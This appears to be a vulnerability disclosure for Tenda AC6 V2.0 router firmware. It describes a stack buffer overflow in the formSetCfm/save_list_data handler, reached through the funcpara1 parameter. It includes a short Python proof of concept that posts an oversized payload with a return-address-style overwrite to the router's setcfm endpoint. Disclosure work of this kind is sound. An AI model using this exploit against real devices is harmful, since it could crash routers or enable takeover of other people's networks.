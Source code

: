# Tenda AC6V2.0_V15.03.06.23_multi firmware is vulnerable to Buffer Overflow via function "formSetCfm"

Firmware download website:

[AC6V2.0升级软件_腾达(Tenda)官方网站](https://www.tenda.com.cn/material/show/102855)

In the `formSetCfm` function, when user input sets `funcname` to **`save_list_data`**, the parameters **`funcpara1`** and **`funcpara2`** are passed to the `save_list_data` function. Inside `save_list_data`, `funcpara1` is then used in a `sprintf` call: `sprintf(mib_name, "%s.list%d", list_name, counta);`. This writes to a stack variable **`mib_name`** which has a fixed size of only **64 bytes**. Crucially, there's **no length validation** performed on the input, making it very easy to cause a **buffer overflow**.

![image-20250616221546473](https://kingimg.oss-cn-hangzhou.aliyuncs.com/img/image-20250616221546473.png)

![image-20250616221617940](https://kingimg.oss-cn-hangzhou.aliyuncs.com/img/image-20250616221617940.png)

poc

```python
import requests
def send_payload(url, funcpara1, funcpara2):
    params={
            'funcname':b'save_list_data',
            'funcpara1':funcpara1,
            'funcpara2':funcpara2}
    cookie={'password':'gfytgb'}
    response = requests.post(url,cookies=cookie,data=params)
    print(f"Status Code: {response.status_code}")
    print(f"Response Text: {response.text}")

funcname=b'save_list_data'
funcpara1=b'a'*0x200+b'\xef\xbe\xad\xde'
funcpara2=b''
url="http://192.168.1.1/goform/setcfm"
send_payload(url, funcpara1,funcpara2)   
```

![image-20250616225016508](https://kingimg.oss-cn-hangzhou.aliyuncs.com/img/image-20250616225016508.png)
